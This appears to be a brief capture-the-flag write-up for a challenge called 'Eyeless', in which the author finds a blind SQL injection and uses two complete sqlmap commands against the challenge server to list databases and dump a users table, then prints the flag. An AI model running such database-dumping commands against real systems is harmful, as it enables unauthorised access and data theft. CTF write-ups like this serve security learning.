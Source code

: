 # Eyeless

The name suggests that there must be Blind SQL injection somewhere.  
So I have used sqlmap to get databases,
> `python sqlmap.py -u http://jh2i.com:50011/ --data "username=admin&password=test" -p username --method POST --dbs`
and found the database named **eyeless** 

Then I ran,
> `python sqlmap.py -u http://jh2i.com:50011/ --data "username=admin&password=test" -p username --method POST --dump -D eyeless -T users` 

And got the flag!

> ### LLS{blind_sql_injection_cant_be_done_with_braille}